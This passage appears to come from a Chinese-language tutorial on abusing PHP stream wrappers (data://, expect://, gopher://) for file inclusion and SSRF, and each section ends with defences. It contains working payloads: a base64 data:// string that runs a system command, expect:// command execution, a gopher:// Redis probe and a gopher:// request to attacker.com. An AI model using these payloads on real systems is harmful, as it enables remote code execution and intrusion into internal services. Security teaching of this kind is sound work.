 - **绕过 `<?php` 过滤**：

  ```php
  data://text/plain;base64,PHBocCBzeXN0ZW0oImlkIik7ID8+
  ```

**防御**：

- 禁用 `allow_url_include` & `allow_url_fopen`
- 检查 `data://` 协议

---

### **4. `expect://` —— 执行系统命令（很少支持）**

**用途**：直接调用系统命令（需 `expect` 扩展）。
**示例**：

```url
expect://id
```

**攻击场景**：

- **SSRF/代码执行**：

  ```php
  file_get_contents($_GET['url']);  // ?url=expect://ls
  ```

**防御**：

- 禁用 `expect` 扩展

---

### **5. `gopher://` —— SSRF 高级利用**

**用途**：发送 TCP/UDP 数据包（常用于 SSRF）。
**示例**：

```
gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0aping%0d%0a  # Redis 未授权访问
```

**攻击场景**：

1. **内网服务探测/攻击**：

   - 访问 `Redis`、`MySQL`、`Memcached` 等内网服务

2. **HTTP Request 转发**（模拟请求）：

   ```text
   gopher://attacker.com:80/_GET /admin HTTP/1.1%0AHost: internal-server%0A%0A
   ```

**防御**：

- 禁用 `gopher://` & 内网访问
- 使用 `url_validate` 检查请求目标

---